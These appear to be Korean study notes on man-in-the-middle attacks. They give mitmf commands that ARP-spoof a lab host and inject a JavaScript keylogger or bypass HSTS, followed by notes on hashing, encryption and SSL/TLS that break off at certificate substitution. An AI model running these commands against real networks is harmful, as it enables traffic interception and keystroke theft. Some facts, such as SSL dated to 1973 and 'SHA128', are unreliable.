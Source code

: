 ```bash
$ mitmf -i eth0 --target <target IP> --gateway <gateway IP> --arp --spoof --upsidedownternet

$ mitmf -i eth0 --target 192.168.18.131 --gateway 192.168.18.2 --arp --spoof --upsidedownternet

$ mitmf -i eth0 --target 192.168.18.131 --gateway 192.168.18.2 --arp --spoof --jskeylogger
```
---
## 암호화
* 일방향 암호화
    - MD5(x), SHA128(x), SHA256
* 양방향 암호화
    - 대칭키
    - 비대칭키

* 대칭키(비밀키)
    - DES(x), 3DES(x), AES
* 비대칭키(공개키, 개인키 방식)
    - RSA
    - 인증서가 비대칭키
    - 공개키가 누구의 것인지 확인 불가
        + 그래서, 신뢰할 수 있는 인증 기관이 생김 -> SSL

---
### SSL(Secure Sokcket Layer)
* 1973, Netscape사에서 개발한 통신 규약
    - 셰션 계층에서 적용되며 TELNET, FTP, HTTP 등의 프로토콜의 안정성을 보장함
    - 서버 인증, 클라이언트 인증, 기밀성 보장
    - 전자상거래 등 많은 곳에서 사용
* HTTP를 SSL로 암호화 -> HTTPS

#### TLS(Transport Layer Security)
* SSL 3.0 버전을 IEEF 표준화 기구에서 표준으로 개발
* SSL 3.0 버전의 업그레이드 버전 TLS1.0

---
#### SSL MITM
1. SSL STRIP
    - 중간에 강제로 HTTPS 통신을 HTTP로 통신하게 만듦
* HSTS : Client 레벨에서 HTTPS 사용을 강제하는 기법
    - 최신 브라우저에서 사용됨
* SSL STRIP+ 
    - bypass HSTS
    - 호스트 주소를 바꿔치기해 http로 접속하게 함
        + www.google.com => wwww.google.com
        + 호스트 주소가 이상해 https로 접속이 안됨
    - 현재는 이상한 호스트라도 강제로 https로 접속하게 만듦
* __문제점__
    - 유명하지 않은곳은 등록이 안되어 있음
    - 국내사이트가 등록 안되어 있는 경우가 많음

```bash
$ mitmf -i eth0 --target 192.168.18.131 --gateway 192.168.18.2 --arp --spoof --hsts
```

2. SSL 인증서 바꿔치기

